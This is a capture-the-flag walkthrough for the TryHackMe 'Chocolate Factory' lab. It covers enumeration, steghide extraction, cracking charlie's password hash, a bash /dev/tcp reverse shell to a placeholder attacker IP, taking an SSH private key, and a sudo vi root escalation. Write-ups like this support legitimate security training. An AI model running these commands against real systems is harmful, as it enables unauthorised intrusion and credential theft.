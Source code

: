 # 📝 Writeup – Chocolate Factory (TryHackMe)

---

## TL;DR
Found lots of noisy ports. Real services: FTP , HTTP, and a weird local-download binary at `/key_rev_key`. Pulled a hidden file from an image via `steghide`, cracked a SHA512crypt hash to get `charlie`'s password, used that to get a reverse shell as `www-data`, grabbed `charlie`'s SSH key, SSH'd in, and finally used `sudo vi -c ':!/bin/sh' /dev/null` to pop root. Root flag retrieved by running `root.py` locally with the found key.

---

## ENUMERATION
Start standard:

```bash
nmap -p- --min-rate 2000 -vv -T4 <IP>
````

Ports found: `21,22,80,100-125` (lots of fake services). Do a focused scan:

```bash
nmap -p21,22,80,100-125 -sC -sV -vv -oN scan.nmap <IP>
```

Screenshots:
![nmap](screenshots/nmap1.png)
![nmap](screenshots/nmap2.png)

Note: Port `113`'s service hinted a key at `http://localhost/key_rev_key` — if the webserver binds 0.0.0.0 you can fetch it via `http://<IP>/key_rev_key`. Keep that in mind.

---

## FTP (Port 21) — find a suspicious image

Anonymous FTP was allowed. Connect and pull `gum_room.jpg`:

```bash
ftp <IP>
# login as anonymous
get gum_room.jpg
```

Open it with `file`/`exiftool` — looks normal. But I suspected hidden data → try `steghide`:

```bash
steghide info gum_room.jpg
steghide extract -sf gum_room.jpg
# If it asks for a passphrase, try empty (some challenges do this)
```

Screenshots:
![gum\_room](screenshots/gun_room.png)
![steghide](screenshots/steghide.png)

Extraction gave `b64.txt`. Decode it:

```bash
cat b64.txt | base64 -d 
```

Decoded contents looked like a `/etc/shadow`-style hash for user `charlie` (format: `$6$salt$hash` → SHA512crypt).

---

## Crack the hash → get `charlie`'s password

Use `hashcat` with rockyou (or similar):

```bash
# example: -m 1800 is for sha512crypt
hashcat -a 0 -m 1800 hash.txt /usr/share/wordlists/rockyou.txt
```

Screenshot:
![hash.txt](screenshots/hash.png)

We cracked `charlie`'s password. Time to hit the web app.

---

## Web (Port 80) — login → command execution

Use credentials `charlie:<password>` on the site. Login success → land on `/home.php` which allows executing shell commands (or a command field that leads to a shell).

Screenshot:
![home.php](screenshots/home.png)

Get a reverse shell listener and spawn a shell from the web app (example):

```bash
# attacker
nc -nvlp 4444

# on target (via web command)
bash -c "bash -i >& /dev/tcp/<ATTACKER_IP>/4444 0>&1"
```

Now we have a `www-data` shell.

---

## Check `/key_rev_key` and downloaded binary

Visiting `http://<IP>/key_rev_key` downloaded a binary. I ran `strings` to quickly see readable data:

```bash
strings key_rev_key
```

Screenshot:
![strings](screenshots/strings.png)

The binary contained some key or text that later helped (used to run root.py). Save it.

---

## Privilege escalation — www-data → charlie

Inside `www-data` shell, I found `charlie`'s SSH private key in `/home/charlie` (or similar). Save it locally and set permissions:

```bash
# copy the key onto your attacker machine (or echo it into a file)
# locally:
chmod 600 id_rsa
ssh -i id_rsa charlie@<IP>
```

Screenshot:
![rsa\_key](screenshots/rsa_key.png)

SSH in as `charlie`.

---

## charlie → root

Check sudo:

```bash
sudo -l
```

We saw `charlie` can run `/usr/bin/vi` as root without password. `vi`/`vim` is a classic GTFO/bin for root shells. Use the one-liner:

```bash
sudo vi -c ':!/bin/sh' /dev/null
```

This spawns a root shell.

Screenshot:
![sudo](screenshots/sudo-l.png)
![root](screenshots/root.png)

---

## Root flag

To fetch the root flag, the box had `root.py`. I copied the contents and executed it locally using the key I earlier obtained from `key_rev_key` (this challenge expected verifying something locally). The flag printed.

Screenshot:
![root.py](screenshots/root_flag.png)

---

## Notes, corrections & tips

* `steghide extract` can succeed with empty passphrase — try blank if you’re stuck.
* Always `chmod 600` on private keys before SSH’ing.
* `strings` is a speedrun tool — good for quick binary hints; for deeper analysis use `r2`/`ghidra`/`gdb`.
* `sudo vi -c ':!/bin/sh' /dev/null` works because `vi` runs shell commands with elevated privileges; abuse carefully.
* If the web server is bound to `127.0.0.1` only, you might need SSRF or a port-forward from the host — but in this box it was accessible via the host IP.

---

## References / further reading

* `steghide` docs / manpage
* hashcat wiki (hash modes)
* GTFOBins — `vi` tricks: [https://gtfobins.github.io/gtfobins/vi/](https://gtfobins.github.io/gtfobins/vi/)

---

## Ethics & disclaimer

This walkthrough is for lab/learning only. Don’t run these techniques on systems you don’t own or have permission to test. Be chill and responsible.

---
